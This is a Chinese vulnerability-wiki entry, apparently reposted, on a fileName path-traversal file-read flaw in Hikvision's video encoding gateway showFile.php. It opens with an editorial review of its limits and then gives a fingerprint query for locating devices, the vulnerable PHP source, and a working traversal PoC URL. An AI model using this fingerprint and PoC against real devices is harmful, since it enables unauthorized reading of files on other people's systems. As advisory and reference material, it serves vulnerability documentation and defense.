


## 核对与使用边界

- 分类更正：正文研究对象为 海康威视视频编码设备接入网关；目录中的语言/协议或其他产品名不能代替实际受影响产品。本次只更正元数据和分类建议，原材料保持原路径。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：version字段只是产品名；无型号固件或鉴权说明

代码与实验材料：showFile.php源码和fileName相对遍历请求完整，响应图未视检；输出经htmlentities不是原始二进制下载

来源证据范围：Threekiii转载无厂商公告

- **事实待核（1）**：产品分类错误；依据：具体海康网关应用缺陷，不是PHP语言漏洞。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（2）**：任意文件下载与实际能力不完全一致；依据：fgets逐行、htmlentities、nl2br输出，应描述可读文件泄漏并限定进程权限/配置。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **适用与权限边界（3）**：缺影响与鉴权边界；依据：仅登录页图不能证明该端点是否未认证可访问。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Hikvision 视频编码设备接入网关 showFile.php 任意文件下载漏洞

## 漏洞描述

海康威视视频接入网关系统在页面`/serverLog/showFile.php`的参数fileName存在任意文件下载漏洞

## 漏洞影响

```
Hikvision 视频编码设备接入网关
```

## 网络测绘

```
title="视频编码设备接入网关"
```

## 漏洞复现

登录页面



漏洞文件为 `showFile.php`, 其中 `参数 fileName` 没有过滤危险字符，导致可文件遍历下载

```
<?php
					$file_name = $_GET['fileName'];
					$file_path = '../../../log/'.$file_name;
					$fp = fopen($file_path, "r");
					while($line = fgets($fp)){
						$line = nl2br(htmlentities($line, ENT_COMPAT, "utf-8"));
						echo '<span style="font-size:16px">'.$line.'</span>';
					}
					fclose($fp);
?>
```

POC

```
/serverLog/showFile.php?fileName=../web/html/main.php
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
